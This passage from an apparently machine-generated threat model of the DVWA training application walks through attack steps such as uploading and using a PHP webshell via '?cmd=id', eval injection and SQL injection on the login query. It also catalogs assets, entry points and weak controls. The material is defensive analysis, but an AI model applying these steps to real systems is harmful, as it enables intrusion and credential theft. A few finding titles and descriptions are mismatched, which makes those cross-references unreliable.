2. `move_uploaded_file()` at `upload/source/low.php:9` copies the file to `hackable/uploads/shell.php` without checking file type or extension.
3. The attacker requests `http://target/hackable/uploads/shell.php?cmd=id` and receives OS command output (`uid=33(www-data)`).
4. The attacker uses the webshell to read database credentials from `config/config.inc.php` and establish persistent access.

**Sequence Diagram**



**Key takeaway:** Until ● [M-005](#m-005) (Enforce MIME type allowlist and rename uploaded files before) lands, 🔴 [F-005](#f-005) — Unrestricted File Upload to Web-Accessible Directory (`low.php:9`) is exploitable at `vulnerabilities/upload/source/low.php:9` (Critical-severity, [CWE-434](https://cwe.mitre.org/data/definitions/434.html)).

**Defense in Depth**

- Primary mitigation: ● [M-005](#m-005) (Enforce MIME type allowlist and rename uploaded files before storing in web-acc…)

### 3.6 User-controlled input reaches a server-side execution sink in Low

**Source:** 🔴 [F-061](#f-061) — `vulnerabilities/exec/source/low.php:14`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-061](#f-061) for the full register row.

**Attack Steps**

1. An attacker crafts a request targeting the weak spot at `vulnerabilities/exec/source/low.php:14`.
2. The attacker sends it; the missing control never rejects the crafted input.
3. Attacker-controlled input is passed to `eval`, a server-side template engine, an unsafe sandbox, or an unsafe deserializer.

**Sequence Diagram**



**Key takeaway:** Until ● [M-049](#m-049) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink is exploitable at `vulnerabilities/exec/source/low.php:14` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ● [M-049](#m-049) (Remove server-side evaluation of untrusted input)

<!-- generated:`walkthrough_renderer` -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

| Asset | Classification | Description |
|----------------------|--------------|------------------------------------|
| User Credentials (DB) | Restricted | User account credentials stored as `MD5`<br/>hashes in the MariaDB database (`dvwa.users`<br/>table). Though intentionally weak (`MD5`),<br/>these represent real user accounts for the<br/>training application. Evidence:<br/>`login.php`:27, database/. |
| Database Credentials | Restricted | Database username and pass**** (8 chars)<br/>('dvwa'/'p@ss**** (8 chars)') committed in<br/>plaintext to compose\.yml and<br/>config/config.inc.php.dist. Permanently<br/>compromised across all forks and clones.<br/>Evidence: compose\.yml:34,<br/>config/config.inc.php.dist:21. |
| PHP Session Tokens | Confidential | PHP session identifiers stored as browser<br/>cookies and server-side session data.<br/>Control authenticated access to all<br/>vulnerability modules. Evidence:<br/>`dvwa/includes/dvwaPage.inc.php:45-79`. |
| OAuth Access Tokens (REST API) | Confidential | OAuth2 bearer tokens issued by the REST API<br/>module (`vulnerabilities/api/src/Login.php`).<br/>Authenticate requests to the API<br/>vulnerability modules. Evidence:<br/>`vulnerabilities/api/src/Login.php:18`,<br/>`vulnerabilities/api/src/LoginController.php:74`. |
| RECAPTCHA API Keys | Confidential | Google reCAPTCHA public and private keys<br/>referenced in config/config.inc.php.dist.<br/>Used by the insecure CAPTCHA vulnerability<br/>module. Not committed with real values in<br/>the dist file but requ**** (8 chars) for the<br/>CAPTCHA module to function. |
| User-Uploaded Files | Internal | Files uploaded through the file upload<br/>vulnerability module, stored in<br/>hackable/uploads/. Includes potentially<br/>executable files depending on security<br/>level. Evidence: hackable/uploads/,<br/>vulnerabilities/upload/. |
| Docker Container Image | Internal | Built Docker image published to `ghcr.io` by<br/>GitHub Actions. Contains the full<br/>application stack including PHP source and<br/>any build-time dependencies. Risk of image<br/>substitution due to unpinned tag references. |
| Application Source Code | Public | PHP source code for all vulnerability<br/>modules, publicly available on GitHub<br/>(`https://github.com/digininja/DVWA`).<br/>Exposure is intentional - it is part of the<br/>training design, but enables pre-knowledge<br/>of injection vectors. |

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (6)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​vulnerabilities/​api/​v1/​user/​{id}</code></td><td>🟠 High</td><td>🟠 <a href="#f-027">F-027</a> — Password Hash Exposure via v1 User API (<code>User.php:44</code>)<br/>REST API user lookup endpoint. IDOR vulnerability at low level allows accessing other users' data without authentication.</td></tr>
<tr><td>?</td><td style="overflow-wrap:anywhere"><code>GET/POST /login.php</code></td><td>🟠 High</td><td>🔴 <a href="#f-007">F-007</a> — Hardcoded Cryptographic Key (<code>Login.php:10</code>)<br/>🔴 <a href="#f-008">F-008</a> — Hardcoded User and OAuth2 Client Credentials (<code>LoginController.php:60</code>)<br/>🟠 <a href="#f-020">F-020</a> — Missing Security Event Audit Logging (<code>LoginController.php:75</code>)<br/>Primary authentication endpoint. Password validated against <code>MD5</code> hashes in MariaDB. CSRF token checked only on 'impossible' level. Session fixation possible at low/medium/high levels.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/vulnerabilities/api/help/</code></td><td>-</td><td>Swagger UI documentation endpoint. Publishes full API specification including request/response schemas. No authentication requ**** (8 chars); exposes all API endpoints and their parameters.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​vulnerabilities/​api/​openapi.​yaml</code></td><td>-</td><td>OpenAPI specification file served without authentication. Allows external tools to import and auto-discover all API attack surfaces.</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​vulnerabilities/​api/​v1/​user/​login</code></td><td>-</td><td>REST API OAuth2 token endpoint. Issues access tokens using <code>client_credentials</code> flow. No rate limiting at low security level.</td></tr>
<tr><td>?</td><td style="overflow-wrap:anywhere"><code>GET/POST /setup.php</code></td><td>-</td><td>Database initialization endpoint. Accessible without authentication; allows resetting the entire database including user accounts.</td></tr>
</tbody>
</table>

### 5.2 Authenticated Entry Points (17)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/index.php</code></td><td>🔴 Critical</td><td>🟡 <a href="#f-055">F-055</a> — Overly Permissive CORS Policy (<code>index.php:11</code>)<br/>🔴 <a href="#f-004">F-004</a> — Local and Remote File Inclusion (<code>index.php:36</code>)<br/>🟡 <a href="#f-046">F-046</a> — Broken hash primitive PHP <code>vulnerabilities/javascript/index.php:43</code> (<code>MD5/SHA-1</code>) (<code>index.php:43</code>)<br/>Main landing page after authentication. Redirects unauthenticated users to <code>login.php</code>.</td></tr>
<tr><td>?</td><td style="overflow-wrap:anywhere"><code>GET/​POST /​vulnerabilities/​exec/​</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-001">F-001</a> — OS Command Injection (<code>HealthController.php:88</code>)<br/>OS command injection module. Input passed to shell_exec/system/passthru at low/medium levels. POST parameter 'ip' is the injection point.</td></tr>
<tr><td>?</td><td style="overflow-wrap:anywhere"><code>GET/​POST /​vulnerabilities/​open_​redirect/​</code></td><td>🟡 Medium</td><td>🟡 <a href="#f-039">F-039</a> — Open Redirect (<code>low.php:4</code>)<br/>Open redirect module. GET parameter 'redirect' controls redirect destination without URL validation at low/medium levels.</td></tr>
</tbody>
</table>

_14 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (17 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 6. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§6](#6-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 24 total - 1 adequate, 2 partial, 2 weak, 10 unsafe, 9 missing. Linked threats: 58._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` pass**** (8 chars) hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 6.1 Security Control Overview

<!-- §6.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls) | 🔴 Unsafe | 6 routed findings; catalogued controls are<br/>present but defeated (e.g. Password-Based<br/>Authentication). |
| [6.3 Session and Token Controls](#63-session-and-token-controls) | 🟠 Weak | 1 routed finding; catalogued controls are<br/>weak (e.g. PHP Session Management). |
| [6.4 Authorization Controls](#64-authorization-controls) | 🔴 Unsafe | 4 routed findings; catalogued controls are<br/>present but defeated (e.g. Role-Based Access<br/>Control). |
| [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls) | 🔴 Unsafe | 2 routed findings; catalogued controls are<br/>present but defeated (e.g. SQL Query<br/>Parameterization). |
| [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls) | 🔴 Unsafe | Catalogued controls are present but defeated<br/>(e.g. Validation Approach). |
| [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls) | 🔴 Unsafe | 1 routed finding; catalogued controls are<br/>present but defeated (e.g. HTML Output<br/>Encoding). |
| [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls) | 🔴 Unsafe | 4 routed findings; catalogued controls are<br/>present but defeated (e.g. CSRF Protection,<br/>CORS Policy). |
| [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection) | 🔴 Unsafe | 7 routed findings; catalogued controls are<br/>present but defeated (e.g. Password Hashing,<br/>Secrets Management). |
| [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls) | 🔴 Unsafe | 7 routed findings; catalogued controls are<br/>present but defeated (e.g. File Upload<br/>Validation, File Inclusion Prevention). |
| [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 11 routed findings; requ**** (8 chars) controls<br/>not in place (e.g. Dependency CVE Scanning,<br/>CI/CD Actions Pinning). |
| [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls) | 🟡 Partial | 0 routed findings; 1 partial control (e.g.<br/>WebSocket Security) leave gaps. |
| [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §6.1 MECHANICAL-FROZEN END -->

### 6.2 Identity and Authentication Controls

<a id="ctrl-identity-and-authentication-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`vulnerabilities/api/src/Login.php:10`), 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`), 🟠 [F-009](#f-009) — Authentication Bypass via DISABLE_AUTHENTICATION Flag, +3 · [tb-2](#tb-2) unconfirmed - 🔴 [F-006](#f-006) — Hardcoded Database Credentials in `compose.yml` Enable Unauthenticated Access, 🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access (`compose.yml:31`), 🔴 [F-052](#f-052) — Container image signing via cosign or attest-build-provenance

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.2.1 Password-Based Login](#pass-based-login)

**Implemented controls:** CSRF synchronizer token (`user_token`) checked on the login form before credential processing; `dvwaIsLoggedIn()` session guard enforced on every page render via `dvwaPage.inc.php`.

**Assessment:** The login path compares an unsalted `MD5` hash against a string-interpolated query - both the hashing primitive and the query construction are defeated. An operator-facing `DISABLE_AUTHENTICATION` bypass eliminates all access control when misconfigured. No rate limiting exists at any security level on the web login endpoint or the REST API authentication endpoint. Each successful login session at non-impossible levels does not regenerate the session identifier. Session token lifecycle is described in [§6.3 Session and Token Controls](#63-session-and-token-controls).

<!-- §6.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§6.3 Session and Token Controls](#63-session-and-token-controls) and pass**** (8 chars) hashing under [§6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|--------|-----------|------------------------------------------------|
| Password login | 🔴 Unsafe | [§6.2](#62-identity-and-authentication-controls) | 🟠 [F-009](#f-009) — Authentication Bypass via `DISABLE_AUTHENTICATION` Flag |
| Password reset / change | 🟠 High | [§6.2](#62-identity-and-authentication-controls) | 🟠 [F-018](#f-018) — CSRF on Password Change via GET (`low.php:3`) |
| Password storage (hashing) | 🔴 Unsafe | [§6.9](#69-cryptography-secrets-and-data-protection) | [W-004](#w-004) — Security-sensitive data uses weak cryptographic primitives<br/>🟠 [F-027](#f-027) — Password Hash Exposure via v1 User API (`User.php:44`) |
| Session-token storage | 🟠 High | [§6.3](#63-session-and-token-controls) | 🟠 [F-029](#f-029) — Session Cookie Missing HttpOnly and Secure Flags at Non-Impossible Levels |
| OAuth / OIDC federated login | 🟠 High | [§6.2](#62-identity-and-authentication-controls) | [W-003](#w-003) — Secrets are committed to source instead of a managed store |

_Also checked, not detected on this codebase: User registration, JWT / bearer-token session, Multi-factor authentication (TOTP / 2FA)._

<!-- §6.2 AUTH-MECHANISMS-FROZEN END -->

<a id="pass-based-login"></a>
#### 6.2.1 Password-Based Login

**Status:** 🔴 Unsafe - `MD5` hash comparison and string-interpolated query construction defeat the credential verification control at every active security level.

`login.php` collects username and pass**** (8 chars), applies `stripslashes()` and `mysqli_real_escape_string()`, calls `md5()` on the pass**** (8 chars), and issues a `SELECT` against the `users` table. A CSRF synchronizer token is verified at line 53 before credential processing. On successful row match, `dvwaLogin()` stores the username in `$_SESSION['dvwa']['username']` and redirects to `index.php`.

The diagram shows the positive pass**** (8 chars)-login path from form submission to authenticated session:



**Security assessment**

Three independent weaknesses sit on the login path:

- `login.php:27` hashes pass**** (8 chars)s with unsalted `md5()` - the hash is a single fast operation with no salt, making stored hashes directly recoverable via rainbow tables or GPU cracking.
- `login.php:40` builds the query by string interpolation after `mysqli_real_escape_string()` - not a parameterized query; second-order injection paths remain open.
- No rate limit or account lockout exists at any security level; unrestricted brute-force credential guessing is possible against `login.php`.

**Relevant findings**

- 🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords — Unsalted MD5 is used for pass**** (8 chars) hashing across the user tables, making the stored hashes trivially recoverable if the database is read.
- 🟠 [F-032](#f-032) — Missing Rate Limiting on Authentication Endpoints — No rate limit or account lockout on `login.php` enables unrestricted credential brute-force attacks.
- 🟠 [F-033](#f-033) — No Rate Limiting or Account Lockout on Login Endpoint — Missing rate limiting on the REST API authentication endpoint exposes API consumers to the same unrestricted credential-guessing risk.

<a id="authentication-bypass"></a><a id="authentication-bypass-disable_authentication"></a>
**Authentication Bypass.**


**Status:** 🔴 Unsafe - `DISABLE_AUTHENTICATION=true` removes all session checks and CSRF validation unconditionally when the environment variable is set.

`config.inc.php.dist:43` exposes a `DISABLE_AUTHENTICATION` environment variable for operator use. When truthy, `dvwaIsLoggedIn()` at `dvwaPage.inc.php:149` returns `true` without inspecting session state, and `checkToken()` at line 637 skips CSRF validation. The flag defaults to `false` in the distributed configuration template and is intended for CI tool access.

**Security assessment**

A misconfigured or injected `DISABLE_AUTHENTICATION=true` in any network-reachable deployment eliminates every access control gate in the application - authenticated routes, admin functions, and CSRF-protected state changes all become reachable without credentials.

**Relevant findings**

- 🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords — If authentication bypass is active, the unsalted MD5 hashes in the user table provide no residual credential protection; the bypass removes the only check that would require them.
- 🟠 [F-032](#f-032) — Missing Rate Limiting on Authentication Endpoints — No rate limit on `login.php` means credential brute-force provides an alternative authentication bypass path when `DISABLE_AUTHENTICATION` is not available.
- 🟠 [F-033](#f-033) — No Rate Limiting or Account Lockout on Login Endpoint — The API authentication endpoint lacks rate limiting, giving attackers a second credential-guessing channel independent of the web login bypass.

### 6.3 Session and Token Controls

<a id="ctrl-session-and-token-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`vulnerabilities/api/src/Login.php:10`), 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`), 🟠 [F-009](#f-009) — Authentication Bypass via DISABLE_AUTHENTICATION Flag, +3 · [tb-2](#tb-2) unconfirmed - 🔴 [F-006](#f-006) — Hardcoded Database Credentials in `compose.yml` Enable Unauthenticated Access, 🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access (`compose.yml:31`), 🔴 [F-052](#f-052) — Container image signing via cosign or attest-build-provenance

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.3.1 PHP Session Management](#php-session-management)

**Implemented controls:** PHP native sessions (`PHPSESSID` cookie) provide session state across all requests; `session_regenerate_id(true)` is called on login at the impossible security level only.

**Assessment:** All authenticated state is carried in server-side PHP sessions. Cookie security attributes (`HttpOnly`, `SameSite=Strict`) and session ID rotation are implemented only at the impossible security level; lower levels deliberately expose session fixation and missing cookie flags as training content. The security level itself is read from the client-controlled `security` cookie, allowing any authenticated user to downgrade their own security level.

<a id="php-session-management"></a>
#### 6.3.1 PHP Session Management

**Status:** 🟠 Weak - session cookie flags and session ID rotation are security-level-dependent and are absent below the impossible level.

`dvwaPage.inc.php:dvwa_start_session()` calls PHP's native `session_start()` to resume or create a session. At the impossible level, `session_regenerate_id(true)` rotates the session ID on each login, and `session_set_cookie_params()` at lines 50–57 sets `HttpOnly=true` and `SameSite=Strict`. At all other levels the session ID from the pre-authentication cookie is explicitly preserved via `session_id($_COOKIE[session_name()])` (line 102).

- **Session Cookie Flags** — HttpOnly and SameSite protect only at impossible level.
- **Session Fixation Prevention** — Session fixation is intentional training content at low/medium/high levels.

**Security assessment**

PHP native sessions used throughout. Cookie flags are security-level-dependent: `HttpOnly` and `SameSite=Strict` are set only at impossible level (`dvwaPage.inc.php:50-57`). The `Secure` flag is hard-coded `false` at all levels (line 62), exposing the session cookie over HTTP. The security level itself is stored in a client-controlled cookie (`security`) without server-side signing - any authenticated user can escalate to `low` mode by changing the cookie. Session lifetime is 86400 seconds with no idle timeout.

**Relevant findings**

- 🟠 [F-010](#f-010) — Session Fixation — Session fixation is explicit at non-impossible levels: `dvwaPage.inc.php:102` calls `session_id()` with the attacker-controllable cookie value before `session_start()`, allowing a planted session ID to survive into the authenticated session.

The diagram shows the PHP session lifecycle from login through protected page access:



### 6.4 Authorization Controls

<a id="ctrl-authorization-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🟠 [F-019](#f-019) — Client-Controlled Security Level Bypasses All Module Protections, 🔴 [F-036](#f-036) — Unauthenticated User Privilege Level Manipulation (`UserController.php:225`) · [tb-2](#tb-2) refuted - 🟠 [F-034](#f-034) — Write-all GITHUB_TOKEN inherited by all workflows no permissions block

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.4.1 Role-Based Access Control](#role-based-access-control)

**Implemented controls:** `dvwaIsLoggedIn()` gates every page render; an `dvwaIsAdmin()` check restricts the admin panel and user management pages to accounts with the admin role.

**Assessment:** The session-based role check that gates the admin panel is present but undermined at multiple points: the REST API exposes user management operations without any authentication check, the client-controlled `security` cookie allows any authenticated user to bypass module-level protections, and `setup.php` allows database initialization without authentication. The role model has two tiers (admin / regular user) enforced only on the web interface, not on the REST API.

<a id="role-based-access-control"></a>
#### 6.4.1 Role-Based Access Control

**Status:** 🔴 Unsafe - the web-layer role check is bypassed by the unauthenticated REST API and the client-controlled security level.

`dvwaIsLoggedIn()` is called in every page entry point to confirm an active session, and `dvwaIsAdmin()` verifies the admin role for privileged pages. The user table stores a `role` field; `dvwaCurrentUser()` reads it from session state to drive access decisions on the web interface.

**Security assessment**

The web-layer role model is structurally correct but bypassed at three points:

- `vulnerabilities/api/src/UserController.php:265` serves User CRUD operations - listing, modifying, and deleting user accounts - without any bearer-token or session authentication check.
- `dvwaPage.inc.php:204` reads the `security` level from `$_COOKIE['security']` without server-side validation; any authenticated user sets `security=low` to bypass all module-level input filtering.
- `setup.php:6` allows database setup and reset without authentication, granting any network-reachable party the ability to wipe the user table.

**Relevant findings**

- 🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints — `UserController.php:265` exposes user listing and account management to unauthenticated callers, bypassing the web-layer role check entirely.
- 🟠 [F-021](#f-021) — GitHub Actions workflow-level permissions block — `UserController.php:225` allows privilege-level manipulation without caller authentication, permitting role escalation through the API.
- 🔴 [F-036](#f-036) — Unauthenticated User Privilege Level Manipulation — The client-controlled `security` cookie at `dvwaPage.inc.php:204` lets any authenticated user self-downgrade to low security, nullifying all module-level protections.

### 6.5 Query Construction and Data Access Controls

<a id="ctrl-query-construction-and-data-access-controls"></a>

**Dependent crossings:** [tb-3](#tb-3) refuted - 🔴 [F-003](#f-003) — SQL Injection (`vulnerabilities/sqli/source/low.php:10`), 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions (`bac_setup.sql:27`)

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.5.1 Login Query](#login-query)
- [6.5.2 Vulnerability Module Queries](#vulnerability-module-queries)

**Implemented controls:** PDO prepared statements with `bindParam()` are used at the impossible security level in the SQLi training module; `mysqli_real_escape_string()` is applied to the login query username input.

**Assessment:** Parameterized query construction exists only in the impossible-level training code, which is not the default active path. The login query and all non-impossible vulnerability module queries use string interpolation. The login path also exposes MySQL error messages directly to the client via `die(mysqli_error())`.

<a id="login-query"></a><a id="login-query-mysqli-escape"></a>
#### 6.5.1 Login Query

**Status:** 🔴 Unsafe - escape-based mitigation is not parameterization; the query is constructed by string interpolation and second-order injection paths remain.

`login.php` applies `mysqli_real_escape_string()` to the username input and `md5()` to the pass**** (8 chars), then passes both into a `SELECT` query built as a string literal. The query at line 40 is: `"SELECT * FROM users WHERE user = '$user``' AND pass**** (8 chars) = '``$pass';"`.

**Security assessment**

Escape-based mitigation on a string-interpolated query provides no parameterization guarantee. Second-order injection paths (where escaped data is stored and re-used in a later query without re-escaping) remain viable. `die(mysqli_error($GLOBALS["___mysqli_ston"]))` at line 40 exposes raw MySQL error output to the client, leaking table names and query structure on malformed input.

**Relevant findings**

- 🔴 [F-003](#f-003) — SQL Injection — SQL injection on the login query allows authentication bypass and database enumeration via `mysqli`-level string interpolation.
- 🔴 [F-013](#f-013) — SQL Injection — Database error messages returned to the client at `login.php:40` assist SQL injection enumeration by revealing query structure and table names.

<a id="vulnerability-module-queries"></a><a id="vulnerability-module-queries-pdo-impossible-level-only"></a>
#### 6.5.2 Vulnerability Module Queries

**Status:** 🔴 Unsafe - raw string interpolation is the active code path at low/medium/high security levels; PDO prepared statements exist only in the impossible-level source that trainees view but do not execute by default.

